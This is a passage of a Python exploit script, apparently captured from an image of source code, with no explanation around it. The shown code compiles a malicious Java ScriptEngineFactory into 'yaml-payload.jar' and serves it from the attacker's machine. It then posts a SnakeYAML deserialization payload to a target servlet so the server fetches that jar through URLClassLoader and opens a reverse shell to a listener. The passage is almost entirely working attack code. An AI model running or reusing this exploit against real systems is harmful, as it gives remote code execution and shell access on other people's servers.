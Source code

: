 ```py
    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }
    @Override
    public String getProgram(String... statements) {
        return null;
    }
    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
""" %lhost
    # Writting the java file
    f = open("src/artsploit/AwesomeScriptEngineFactory.java", "a")
    f.write(AwesomeScriptEngineFactory)
    f.close()
    # Writting the engine file
    g = open("src/META-INF/services/javax.script.ScriptEngineFactory", "a")
    g.write(ScriptEngineFactory)
    g.close()
    print("[+] Files created, let's compile it !!! [+]")
    os.system("javac src/artsploit/AwesomeScriptEngineFactory.java >/dev/null 2>&1")
    os.system("jar -cvf yaml-payload.jar -C src/ . >/dev/null 2>&1")
    print("[+] Exploit Done... !!!! Let's execute it now !! [+]")
    os.system("rm -r src")
    
# Function to send the malicious jar to the server
def exploitServer(rhost,lhost):
    print("[+] Let's get the reverse shell !! [+]")
    url = "http://%s:8080/" %rhost
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    r.get(url, headers=headers, proxies=proxies)
    os.system("sleep 3")
    url1 = "http://%s:8080/Servlet" %rhost
    headers1 = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"data": "!!javax.script.ScriptEngineManager [\r\n  !!java.net.URLClassLoader [[\r\n    !!java.net.URL [\"http://%s/yaml-payload.jar\"]\r\n  ]]\r\n]" %lhost}
    r.post(url1, headers=headers1, data=data, proxies=proxies, cookies=r.cookies)
    r.post(url1, headers=headers1, data=data, proxies=proxies, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.ipaddress
    lport = args.port

    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
```